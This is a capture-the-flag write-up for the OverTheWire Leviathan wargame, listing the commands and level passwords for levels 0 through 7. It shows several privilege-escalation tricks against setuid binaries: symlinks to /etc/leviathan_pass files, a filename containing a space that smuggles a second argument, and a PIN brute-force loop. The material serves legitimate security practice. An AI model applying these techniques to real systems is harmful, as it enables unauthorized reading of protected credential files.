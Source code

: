 #Leviathan writeup
[http://www.overthewire.org/wargames/leviathan/](http://www.overthewire.org/wargames/leviathan/)

##Level 0:
    ssh leviathan0@leviathan.labs.overthewire.org

pass is `leviathan0`

    less /README.txt

Note that "Passwords for each level are stored in /etc/mygame_pass/.""

    ls -a
    cd .backup
    ls
    cat bookmarks.html | grep password

##Level 1:
    ssh leviathan1@leviathan.labs.overthewire.org

pass is `rioGegei8m`

    ls
    strings check
    ./check
    sex
    cat /etc/leviathan_pass/leviathan2

##Level 2:
    ssh leviathan2@leviathan.labs.overthewire.org

pass is `ougahZi8Ta`

    ls
    ls -l printfile
    ./printfile
    mkdir /tmp/lchack-qrohlf
    echo "foo" > tmp/lchack-qrohlf/foo.txt
    ./printfile /tmp/lchack-qrohlf/foo.txt
    cd /tmp/lchack-qrohlf
    ln -s /etc/leviathan_pass/leviathan3
    touch "somefile leviathan3"
    ~/printfile "somefile leviathan3"

##Level 3:
    ssh leviathan3@leviathan.labs.overthewire.org

pass is `Ahdiemoo1j`

    ls -a
    ./level3
    strings level3
    for i in `strings level3`; do echo $i && echo $i | ./level3; done
    ./level3
    snlprintf
    cat /etc/leviathan_pass/leviathan4

##Level 4:
    ssh leviathan4@leviathan.labs.overthewire.org

pass is `vuH0coox6m`

    ls -a
    cd .trash
    ./bin

used an online binary to ASII converter to get `Tith4cokei` from the output

##Level 5:
    ssh leviathan5@leviathan.labs.overthewire.org

pass is `Tith4cokei`

    ls
    ./leviathan5
    echo "foo" > /tmp/file.log
    ./leviathan5
    ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
    ./leviathan5

##Level 6:

    ssh leviathan6@leviathan.labs.overthewire.org

pass is `UgaoFee4li`

    ls 
    ./leviathan6
    for i in {1000..9999}; do echo $i; ./leviathan6 $i; done
    ./leviathan6 7123
    cat /etc/leviathan_pass/leviathan7

##Level 7:

    ssh leviathan7@leviathan.labs.overthewire.org

pass is `ahy7MaeBo9`

    cat CONGRATULATIONS 
